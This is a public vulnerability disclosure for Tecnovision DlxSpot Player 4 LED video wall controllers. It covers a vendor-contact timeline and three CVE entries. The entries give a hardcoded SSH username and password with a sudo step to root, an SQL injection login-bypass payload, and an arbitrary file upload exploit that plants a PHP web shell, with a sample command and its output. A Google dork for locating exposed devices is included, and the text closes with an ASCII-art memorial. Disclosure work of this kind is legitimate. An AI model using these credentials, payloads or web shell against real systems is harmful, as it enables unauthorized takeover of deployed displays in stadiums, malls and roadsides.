 Tecnovision LED Video Wall Vulnerabilities and Exploits. From SQLi to full root access.
================================
##### Introduction:
Tecnovision is a manufacturer of LED Video Walls used in arenas (For example, Twickenham Stadium), concert halls, shopping malls, as roadsigns and much much more. DlxSpot Player 4 is the software controller for some of these LED walls. These are the unpatched exploits and are 0days (2017-09-18) that I have discovered that led (ha!) from SQLi to full root access. (Please note that the hardcoded password was the last finding, they are just sorted in this list by the CVE numbers assigned to them)
Thank you for taking the time to read this. If you've got any questions, ping me on twitter @unknownpwn

I'd like to dedicate this work to my friend and brother-in-law who recently passed away, Marcus Åström.
##### TIMELINE:

+ 2017-05-14 - Discovery of vulnerabilities.
+ 2017-05-15 - Contacted Tecnovision through contact form on manufacturer homepage. 
+ 2017-06-01 - No response, tried contacting again through several contact forms on homepage.
+ 2017-08-10 - Contacted Common Vulnerabilities and Exposures (CVE) requesting CVE assignment.
+ 2017-08-17 - Three CVE's assigned for the vulnerabilities found.
+ 2017-08-22 - With help from fellow hacker and friend, byt3bl33d3r, sent an email in Italian to the company. 
+ 2017-09-18 - No response, full public disclosure.

### 1. Hardcoded Root SSH Password.
``` 
# Exploit Title: DlxSpot - Player4 LED video wall - Hardcoded Root SSH Password.
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom 
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: All known versions
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12928
# Linked CVE's: CVE-2017-12929, CVE-2017-12930
``` 

> Hardcoded password for all DlxSpot Players 4, accessible via SSH at port 22 as default. 
> Root login is disabled.

username: `dlxuser`
password: `tecn0visi0n`
 
After logging in, `sudo su` with the same password to escalate privileges to root.

-----------------------------------------

### 2. Admin Interface SQL Injection
```
# Exploit Title: DlxSpot - Player4 LED video wall - Admin Interface SQL Injection
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12930
# Linked CVE's: CVE-2017-12928, CVE-2017-12929
```

> DlxSpot Player 4 above version 1.5.10 suffers from an SQL injection vulnerability in the admin interface and is exploitable > with the following injection.

username:`admin` 
password:`x' or 'x'='x`

-----------------------------------------

### 3. Arbitrary File Upload to RCE
```
# Exploit Title: DlxSpot - Player4 LED video wall - Arbitrary File Upload to RCE
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12929
# Linked CVE's: CVE-2017-12928, CVE-2017-12930.
```

> DlxSpot Player 4 - Unrestricted Arbitrary File Upload in `resource.php` leading to Remote Command Execution.

1. Visit http://host/resource.php and upload PHP shell. For example: `<?php system($_GET["c"]); ?>`
2. RCE via http://host/resource/source/shell.php?c=id
3. Output: `www-data`

```
MMMMMMMMWXd;'  .xWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc..,cdKWMMMMMMMM
MMMMMMMXd:;.    ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNl    .;cdKWMMMMMM
MMMMMWO;.;,   .  :XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWd.     ':';xWMMMMM
MMMMWx.',;'  'c.  oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk.  :;  .,;,.oNMMMM
MMMWd..l,''  .:'  .dWMMMMMMWWWXNMMMMMMNNWWWMMMMMMWk.  .:,  .,'l,.oNMMM
MMWk,;lc.., ..,;   .dNMMMMXdkO:xMMMMMWxc0kxNMMMMWk.   ,,.. ''.:o,.dWMM
MMXodxc' .,....;'   .lXMMWd';,.cXMMMMK:.;;'xWMMXo.   .;... ,. 'lxdl0MM
MXkoo;'.  ;,'' ';..   'dKk,....;0MMMMO'....;OXx,    .;' .'':. .,:xdONM
Nl';;...  :l:;,. ',..   .'..'..cONWWXO:.''..,.    .,'.',::lc. .'.:c;lX
0l;,'... .'l:.......'....      .;0WWk'.       ...'.....'.cl,. ...';;:k
Kx;.. .. ..', .,;,....'','.....,OWMMNd......',''....,:'..;,.. .. .':kK
x:... .. ...' .. ,l;.'. .. ...lKMMMMMWO:.'. .. ...:l'....,... .. ...ck
:,..  .. ...,... ..';,,''..,;;OWMMMMMMNo,:' .,',;;''. ...,... .. ...,c
,'.'. .. .. .',,.'..,.''..'..lNMMMMMMMM0;.''..;.., ...,''...  .. .'.',
c',c. .. .. .;c;':,.:'....;::xXMMMMMMMMOl;;,....;:.;,'cc, ..  '. .l'':
k;,,. .'. ...;'';::,,,.',;OXNWWMMMMMMMMWNX0l',..:,,lc;':, .. .'  .c,;k
k:'..  ;, ...;..,.'ll:ckkxXMMMMMMMMMMMMMMMWkdxo::l:',,.'; .. ,,  .'':O
0c..'  lo...'c.'c..kNOxXMWWMMMM R I P MMMMWNWWOx0K: ;:.;:....o; .'.'l0
Xl..;. o0;.':o,.dc.kMWNWMMMMMMMMMMMMMMMMMMMMMWNNMX:.d:.lc'. c0; ', .xX
Wl ,k:.ckd..oOc.o0cdWMMMMMMM M A R C U S MMMMMMMM0:dO'.xx:.,kO, ll..kM
Nc.okl,::ol'cxd,;KK0WMMMMMMMMMMMMMMMMMMMMMMMMMMMM0OXd.ckx;'dol,,kk,.xM
Nc;c.:ol..loc:dx:kMWMMMMMMM  A S T R O M  MMMMMMWWXccklccoc.:ll:ll'xMM
Noc' .oo' .lo':KO0WMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMKxKo,lkc  lk: .::kM
NOx' .',,  ..  .dWMMMM 1994-04-05 ✞ 2017-09-11 MMMMWWO' ';. .::'  cdOM
WN0, ,;.,. ... .OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMX:  .. .;.., .dKXM
MMN: lx..;. .,. ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc  ''  ,,.co..OWWM
MMWd'lk:.':. 'c' ,0WMMMMMMM FOREVER LOVED MMMMMMMMXc .:;  ;;.'kx.:XMMM
MMW0dlcc,.;l. ,xd,;OWMMMMM NEVER FORGOTTEN MMMMMW0:.cd: .::..cdocxWMMM
MMNo;,:;';'co' 'kXkkXMMMMMMMMMMMMMMMMMMMMMMMMMMMXxx0O; .ll',;::cokNMMM
MMX: .l: .,co:'..dNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWWWk'.'ldc;'.:c. :XMMM
MM0' 'Ol   cl..;:,lXMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXo,,,.'oc.  ox. ;KMMM
MWd..xNl  .lc  ,0KdxXMMMMMMMMMMMMMMMMMMMMMMMMMMWKdo0k'  lc   dXc .OMMM
WO;:OWNc  .kd  .OMMNNWMMMMMMMMMMMMMMMMMMMMMMMMMWXNWMx. .xd.  oWXc.cXMM
WK0NMMK,  cNx. 'OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMx. '00'  lNMNOd0WM
MMMMMMk. ,0Mk. ;KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMk. ,KWo. ;KMMMMMMM
MMMMMNc 'OWMk..dWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK; ;XMXc .kMMMMMMM
MMMMMk';0WMMk':XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWx.;XMMXc.cNMMMMMM
MMMMXddXMMMM0xKMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdoNMMMNd:OMMMMMM
MMMMNXWMMMMMWWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNXWMMMMWOkNMMMMM
```